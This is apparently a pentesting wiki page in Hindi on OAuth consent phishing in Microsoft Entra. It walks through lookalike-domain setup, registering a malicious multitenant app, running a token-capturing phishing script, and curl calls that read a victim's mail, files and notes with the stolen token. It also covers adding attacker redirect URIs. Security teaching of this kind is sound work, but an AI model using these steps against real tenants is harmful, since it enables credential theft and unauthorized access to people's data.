

# Az - OAuth Apps Phishing

## OAuth App Phishing

**Microsoft Entra applications** Microsoft Graph और अन्य APIs द्वारा exposed delegated permissions (scopes) का अनुरोध कर सकती हैं। Consent के बाद, delegated token application को signed-in user की ओर से कार्य करने देता है; यह उस data को access नहीं कर सकता जिसे वह user स्वयं access नहीं कर सकता। Application permissions एक अलग app-only model हैं और signed-in user की permissions तक सीमित नहीं होतीं।<sup>[[4]](#references)</sup>

### App consent permissions

**User apps को consent दे सकता है या नहीं**, यह tenant policy द्वारा नियंत्रित होता है। Legacy user-consent policy का उपयोग करने वाला tenant users को उन permissions के लिए consent देने की अनुमति देता है जिनके लिए administrator consent आवश्यक नहीं है; administrators इसके बजाय **selected permissions के लिए verified publishers की apps तक consent सीमित** कर सकते हैं या user consent को disable कर सकते हैं।<sup>[[3]](#references)[[5]](#references)</sup>

<figure><figcaption></figcaption></figure>

यदि users consent नहीं दे सकते, तो **administrators** users की ओर से applications को consent दे सकते हैं। Exact role API और permission पर निर्भर करता है: `Application Administrator` और `Cloud Application Administrator` delegated permissions और अधिकांश application permissions grant कर सकते हैं, जबकि Microsoft Graph application permissions के लिए `Privileged Role Administrator` जैसे अधिक privileged administrator की आवश्यकता होती है।<sup>[[3]](#references)[[12]](#references)</sup>

Microsoft की वर्तमान incident-response guidance `openid`, `profile`, `email`, `User.Read`, `User.ReadBasic.All`, और `offline_access` (जब किसी अन्य low-risk permission के साथ paired हो) को शुरुआती low-risk set के रूप में सूचीबद्ध करती है। Effective list tenant की consent policy द्वारा निर्धारित होती है और बदल सकती है।<sup>[[3]](#references)[[5]](#references)</sup>

यदि users tenant की policy के अंतर्गत सभी apps को consent दे सकते हैं, तो वे ऐसी किसी भी permission को consent दे सकते हैं जिसके लिए administrator consent आवश्यक नहीं है।<sup>[[3]](#references)[[5]](#references)</sup>

### 2 Types of attacks

- **Unauthenticated / external-account consent phishing**: Target tenant के बाहर के account से, `User.Read` और `User.ReadBasic.All` जैसी low-risk delegated permissions वाली multitenant application register करें, फिर target user को उसका consent देने के लिए phish करें। `User.ReadBasic.All` signed-in user की ओर से अन्य users की basic profile properties का एक सीमित set expose करता है।<sup>[[3]](#references)[[4]](#references)[[19]](#references)</sup>
- इसके लिए phished user को target tenant की policy के अंतर्गत **external tenant की applications को consent देने में सक्षम** होना आवश्यक है।<sup>[[5]](#references)</sup>
- यदि phished user आवश्यक consent authority वाला administrator है, तो application अतिरिक्त privileged delegated permissions का अनुरोध कर सकती है, जो API और role restrictions के अधीन होगा।<sup>[[3]](#references)[[12]](#references)</sup>
- **Authenticated / in-tenant consent phishing**: Target tenant में applications create या manage कर सकने वाले principal को compromise करने के बाद, वहां एक application create करें और ऐसे privileged user को phish करें जो higher-privilege delegated permissions को consent दे सकता है।<sup>[[3]](#references)[[12]](#references)</sup>
- इस स्थिति में attacker के पास पहले से directory visibility हो सकती है, इसलिए `User.ReadBasic.All` कम interesting है।
- उपयोगी targets वे permissions हैं जिनके लिए administrator consent आवश्यक होता है, क्योंकि ordinary user केवल tenant policy द्वारा allowed permissions को consent दे सकता है और admin-restricted permissions को नहीं।<sup>[[4]](#references)[[6]](#references)</sup>

### Users are allowed to consent

इन tenant-scoped Microsoft Graph calls को target tenant में authorized identity के साथ चलाया जाना चाहिए। Authorization policy को read करने के लिए `Policy.Read.All` आवश्यक है; permission-grant policies को list करने के लिए `Policy.Read.PermissionGrant` आवश्यक है।<sup>[[9]](#references)[[10]](#references)</sup>
```bash
az rest --method GET --url "https://graph.microsoft.com/v1.0/policies/authorizationPolicy"
```
- **Users can consent to all apps**: यदि `permissionGrantPoliciesAssigned` में `ManagePermissionGrantsForSelf.microsoft-user-default-legacy` शामिल है, तो users ऐसी किसी भी permission के लिए consent दे सकते हैं जिसके लिए administrator consent आवश्यक नहीं है।<sup>[[5]](#references)</sup>
- **Users can consent to verified publishers or the organization, for selected permissions**: यदि इसमें `ManagePermissionGrantsForSelf.microsoft-user-default-low` शामिल है, तो user consent verified या in-tenant applications और low impact के रूप में classified permissions तक सीमित रहता है।<sup>[[5]](#references)</sup>
- **Disable user consent**: कोई भी `ManagePermissionGrantsForSelf.*` policy assigned नहीं है। मौजूदा `ManagePermissionGrantsForOwnedResource.*` entries को बनाए रखें, क्योंकि वे अलग resource-consent scenarios को नियंत्रित करती हैं।<sup>[[5]](#references)</sup>

प्रत्येक permission-grant policy की conditions और meaning देखने के लिए query करें:
```bash
az rest --method GET --url "https://graph.microsoft.com/v1.0/policies/permissionGrantPolicies"
```
### **Application Admins**

Hard-coded tenant-specific directory-role object IDs के बजाय immutable built-in `roleTemplateId` values का उपयोग करें। `directoryRoles` members endpoint role object ID या built-in role template ID, दोनों में से किसी एक को स्वीकार करता है; role tenant में activated होना चाहिए।<sup>[[11]](#references)[[12]](#references)</sup>
```bash
# Get activated directory roles
az rest --method GET --url "https://graph.microsoft.com/v1.0/directoryRoles"

# Get Global Administrators (roleTemplateId: 62e90394-69f5-4237-9190-012177145e10)
az rest --method GET --url "https://graph.microsoft.com/v1.0/directoryRoles(roleTemplateId='62e90394-69f5-4237-9190-012177145e10')/members"

# Get Application Administrators (roleTemplateId: 9b895d92-2cd3-44c7-9d02-a6ac2d5ea5c3)
az rest --method GET --url "https://graph.microsoft.com/v1.0/directoryRoles(roleTemplateId='9b895d92-2cd3-44c7-9d02-a6ac2d5ea5c3')/members"

# Get Cloud Application Administrators (roleTemplateId: 158c047a-c907-4556-b7ef-446551a6b5f7)
az rest --method GET --url "https://graph.microsoft.com/v1.0/directoryRoles(roleTemplateId='158c047a-c907-4556-b7ef-446551a6b5f7')/members"
```
## **Attack Flow का Overview**

एक consent-phishing demonstration में operator-controlled lookalike domain, multitenant app, delegated permissions और authorization-code redirect को जोड़ा जा सकता है। Microsoft Entra sign-in और consent के बाद registered redirect URI पर authorization code लौटाता है; इसके बाद application उस code को tokens के लिए exchange करती है।<sup>[[1]](#references)[[7]](#references)[[8]](#references)</sup>

1. **Domain registration और hosting**: किसी trusted site से मिलता-जुलता domain register करें, उदाहरण के लिए `safedomainlogin.com`, और consent-flow application को `companyname.safedomainlogin.com` जैसे subdomain पर host करें।<sup>[[1]](#references)</sup>
2. **Application registration**: operator के tenant में एक multitenant application register करें, उसे target-relevant display name दें और उसका redirect URI hosted endpoint पर configure करें।<sup>[[1]](#references)[[7]](#references)</sup>
3. **Permissions**: authorized test के लिए आवश्यक केवल delegated API permissions request करें, जैसे `Mail.Read`, `Notes.Read.All`, `Files.ReadWrite.All`, `User.ReadBasic.All` और `User.Read`। Granted token signed-in user के access और target tenant की consent policy से सीमित रहता है।<sup>[[1]](#references)[[4]](#references)[[19]](#references)</sup>
4. **Authorization link**: application की client ID वाला authorization link बनाएं और approved engagement के हिस्से के रूप में इसे selected users को भेजें। Target को फिर भी authenticate करना होगा और consent, MFA या Conditional Access की आवश्यकताओं को पूरा करना होगा।<sup>[[1]](#references)[[8]](#references)</sup>

## Example Attack

इस example का उपयोग केवल authorized test environment में करें।

1. एक **new application** register करें। वर्तमान directory तक सीमित lab के लिए single-tenant registration का उपयोग करें, या जब test में किसी दूसरे tenant के users की आवश्यकता हो तो multitenant registration का उपयोग करें। **redirect URI** को उस endpoint पर set करें जो authorization code receive करेगा (`http://localhost:8000/callback` by default)। Redirect URIs को registered value से exactly match करना चाहिए; permitted localhost cases को छोड़कर HTTPS आवश्यक है।<sup>[[7]](#references)[[8]](#references)</sup>

<figure><figcaption></figcaption></figure>

2. इस sample के confidential web-app authorization-code flow के लिए application secret बनाएं और उसका value securely store करें।<sup>[[7]](#references)[[15]](#references)</sup>

<figure><figcaption></figcaption></figure>

3. Delegated API permissions select करें (उदाहरण के लिए, `Mail.Read`, `Notes.Read.All`, `Files.ReadWrite.All`, `User.ReadBasic.All` और `User.Read`)। Consent prompt में दिखाई जाने वाली permissions और token द्वारा वास्तव में उपयोग की जा सकने वाली permissions, target tenant की policy और user के access पर निर्भर करती हैं।<sup>[[4]](#references)[[5]](#references)[[19]](#references)</sup>

<figure><figcaption></figcaption></figure>

>[!WARNING]
> Applications Microsoft Graph के अलावा अन्य APIs से भी permissions request कर सकती हैं। Azure Resource Manager `user_impersonation` delegated scope expose करता है, जिसे आमतौर पर `https://management.azure.com/user_impersonation` के रूप में request किया जाता है; resulting token फिर भी केवल उन्हीं operations को authorize करता है जिनकी अनुमति signed-in user को है। अन्य resource APIs अपने स्वयं के resource identifiers और scopes expose करती हैं।<sup>[[4]](#references)[[6]](#references)[[20]](#references)</sup>

4. Permissions मांगने वाले web page ([**azure_oauth_phishing_example**](https://github.com/carlospolop/azure_oauth_phishing_example)) को **execute करें**। Sample authorization-code request construct करता है और resulting access तथा refresh tokens को print करता है, इसलिए captured tokens को sensitive मानें।<sup>[[8]](#references)[[15]](#references)</sup>
```bash
# From https://github.com/carlospolop/azure_oauth_phishing_example
python3 azure_oauth_phishing_example.py --client-secret <client-secret> --client-id <client-id> --scopes "email,Files.ReadWrite.All,Mail.Read,Notes.Read.All,offline_access,openid,profile,User.Read"
```
5. **URL को victim को भेजें**
1. इस sample में, local URL `http://localhost:8000` है।<sup>[[15]](#references)</sup>
6. **यदि target tenant की consent policy requested permissions की अनुमति देती है, तो user को prompt स्वीकार करना होगा।** Tenant इस request को block कर सकता है या इसके बजाय administrator consent की आवश्यकता रख सकता है।<sup>[[3]](#references)[[5]](#references)[[15]](#references)</sup>

<figure><figcaption></figcaption></figure>

7. **वास्तव में दी गई permissions को access करने के लिए access token का उपयोग करें।** जब token में उपयुक्त delegated permissions होती हैं, तो निम्न calls signed-in user का drive root, mailbox messages और OneNote notebooks सूचीबद्ध करती हैं।<sup>[[16]](#references)[[17]](#references)[[18]](#references)</sup>
```bash
export ACCESS_TOKEN=<ACCESS_TOKEN>

# List drive files
curl -X GET \
https://graph.microsoft.com/v1.0/me/drive/root/children \
-H "Authorization: Bearer $ACCESS_TOKEN" \
-H "Accept: application/json"

# List emails
curl -X GET \
https://graph.microsoft.com/v1.0/me/messages \
-H "Authorization: Bearer $ACCESS_TOKEN" \
-H "Accept: application/json"

# List notes
curl -X GET \
https://graph.microsoft.com/v1.0/me/onenote/notebooks \
-H "Authorization: Bearer $ACCESS_TOKEN" \
-H "Accept: application/json"
```
## Other Tools

- [**365-Stealer**](https://github.com/AlteredSecurity/365-Stealer): इसके illicit-consent-grant workflow और configuration के लिए [Introduction to 365-Stealer](https://www.alteredsecurity.com/post/introduction-to-365-stealer) देखें। Repository इसके वर्तमान Python CLI और web UI को document करती है।<sup>[[1]](#references)[[2]](#references)[[21]](#references)</sup>
- [**O365-Attack-Toolkit**](https://github.com/mdsecactivebreach/o365-attack-toolkit): OAuth phishing endpoint, backend Graph services और management interface वाला operator toolkit।<sup>[[22]](#references)</sup>

## Post-Exploitation

### Phishing Post-Exploitation

Granted permissions के आधार पर, कोई token tenant data (उदाहरण के लिए, वे users या groups जिनका access signed-in user के पास है) और user की files, notes या email तक access कर सकता है। Delegated write permissions उन resources या directory settings में भी बदलाव की अनुमति दे सकती हैं, जिन्हें signed-in user modify करने के लिए authorized है। Token delegated scopes और signed-in user की effective permissions के intersection से आगे access नहीं कर सकता।<sup>[[4]](#references)[[16]](#references)[[17]](#references)[[18]](#references)[[19]](#references)</sup>

### Entra ID Applications Admin

यदि कोई compromised principal application registration manage कर सकता है—उदाहरण के लिए, उसका owner होने के कारण या `Application Administrator` अथवा `Cloud Application Administrator` role के माध्यम से—तो principal application की authentication properties और requested permissions update कर सकता है। Application management में redirect URIs और `requiredResourceAccess` collection शामिल हैं, जो consent experience को drive करते हैं; केवल requested permissions जोड़ने से वे grant नहीं होतीं।<sup>[[12]](#references)[[13]](#references)[[14]](#references)</sup>

- An attacker legitimate redirect URI को delete किए बिना attacker-controlled redirect URI जोड़ सकता है, फिर ऐसा authorization request भेज सकता है जिसका `redirect_uri` parameter जोड़ी गई value का उपयोग करता है। URI registered होना चाहिए और exact match होना चाहिए। यदि user का active session है, तो sign-in किसी अन्य credential prompt के बिना आगे बढ़ सकता है, लेकिन MFA, Conditional Access, consent और app-specific state checks फिर भी intervene कर सकते हैं।<sup>[[7]](#references)[[8]](#references)</sup>
- Authorization-code flow में, diverted response सामान्यतः short-lived authorization code होता है, अपने-आप access token नहीं; इसे redeem करने के लिए अभी भी client secret या सही PKCE verifier आवश्यक होता है। Impact application के flow और client configuration पर निर्भर करता है।<sup>[[8]](#references)[[15]](#references)</sup>
- Permissions जोड़ने से users को नया consent prompt दिखाई दे सकता है। Existing grants नई requested permissions के grants में automatically convert नहीं होते, और application को आवश्यक user या administrator consent प्राप्त करना होता है।<sup>[[5]](#references)[[14]](#references)</sup>
- Attacker को redirect URI जोड़ने या उसकी requested permissions बदलने के लिए application source code modify करने की आवश्यकता नहीं होती, लेकिन successful token acquisition अभी भी ऊपर बताए गए authorization flow और credentials पर निर्भर करता है।<sup>[[13]](#references)[[14]](#references)</sup>

### Application Post Exploitation

Page के Applications और Service Principal sections देखें:

{{#ref}}
../az-privilege-escalation/az-entraid-privesc/
{{#endref}}

## References

- [1] [Introduction to 365-Stealer - Understanding and Executing the Illicit Consent Grant Attack](https://www.alteredsecurity.com/post/introduction-to-365-stealer)
- [2] [Azure AD - Phishing - Internal All The Things](https://swisskyrepo.github.io/InternalAllTheThings/cloud/azure/azure-phishing/)
- [3] [App consent grant investigation](https://learn.microsoft.com/en-us/security/operations/incident-response-playbook-app-consent)
- [4] [Overview of permissions and consent in the Microsoft identity platform](https://learn.microsoft.com/en-us/entra/identity-platform/permissions-consent-overview)
- [5] [Configure how users consent to applications](https://learn.microsoft.com/en-us/entra/identity/enterprise-apps/configure-user-consent)
- [6] [Scopes and permissions in the Microsoft identity platform](https://learn.microsoft.com/en-us/entra/identity-platform/scopes-oidc)
- [7] [Application types for the Microsoft identity platform](https://learn.microsoft.com/en-us/entra/identity-platform/v2-app-types)
- [8] [Get access on behalf of a user](https://learn.microsoft.com/en-us/graph/auth-v2-user)
- [9] [Get authorizationPolicy](https://learn.microsoft.com/en-us/graph/api/authorizationpolicy-get?view=graph-rest-1.0)
- [10] [List permissionGrantPolicies](https://learn.microsoft.com/en-us/graph/api/permissiongrantpolicy-list?view=graph-rest-1.0)
- [11] [List members of a directory role](https://learn.microsoft.com/en-us/graph/api/directoryrole-list-members?view=graph-rest-1.0)
- [12] [Microsoft Entra built-in roles](https://learn.microsoft.com/en-us/entra/identity/role-based-access-control/permissions-reference)
- [13] [Update application](https://learn.microsoft.com/en-us/graph/api/application-update?view=graph-rest-1.0)
- [14] [Manage Microsoft Entra applications using Microsoft Graph](https://learn.microsoft.com/en-us/graph/tutorial-applications-basics)
- [15] [azure_oauth_phishing_example.py](https://raw.githubusercontent.com/carlospolop/azure_oauth_phishing_example/main/azure_oauth_phishing_example.py)
- [16] [List the contents of a folder](https://learn.microsoft.com/en-us/graph/api/driveitem-list-children?view=graph-rest-1.0)
- [17] [List messages](https://learn.microsoft.com/en-us/graph/api/user-list-messages?view=graph-rest-1.0)
- [18] [List notebooks](https://learn.microsoft.com/en-us/graph/api/onenote-list-notebooks?view=graph-rest-1.0)
- [19] [Microsoft Graph permissions reference](https://learn.microsoft.com/en-us/graph/permissions-reference)
- [20] [Authentication JavaScript API reference: Azure service scopes](https://learn.microsoft.com/en-us/fabric/extensibility-toolkit/authentication-javascript-api)
- [21] [365-Stealer](https://github.com/AlteredSecurity/365-Stealer)
- [22] [o365-attack-toolkit](https://github.com/mdsecactivebreach/o365-attack-toolkit)

{{#include ../../../banners/hacktricks-training.md}}
